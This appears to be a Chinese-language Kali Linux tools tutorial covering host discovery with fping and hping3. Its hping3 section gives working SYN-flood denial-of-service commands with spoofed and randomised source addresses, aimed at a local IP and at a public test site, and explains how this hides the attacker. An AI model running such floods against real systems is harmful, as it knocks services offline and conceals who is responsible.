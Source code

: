 ![kali工具目录](kali-tools.png "kali") 

# 01 -  信息收集
## 1.1存活主机识别
### 1.1.1 arping
pass
### 1.1.2 fping

Fping类似于ping，但比ping强大。Fping与ping不同的地方在于，fping可以在命令行中指定要ping的主机数量范围，也可以指定含有要ping的主机列表文件。

目标IP地址的输入方式：
```
fping IP1 IP2 IP3 ...；

fping -f filename；

fping -g IP1 IP2（IP1地址开始范围，IP2地址结束范围）；
```
### 1.1.3 hping3


使用hping3进行DoS攻击：

使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。

```
hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```
now I use testphp.vulnweb.com to test :

```
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testphp.vulnweb.com
```
Do not uses string like:  http:// or www.

    -c：发送数据包的个数
    -d：每个数据包的大小
    -S：发送SYN数据包
    -w：TCP window大小
    -p：目标端口，你可以指定任意端口
    –flood：尽可能快的发送数据包
    –rand-source：使用随机的IP地址，目标机器看到一堆ip，不能定位你的实际IP；也可以使用-a或–spoof隐藏主机名

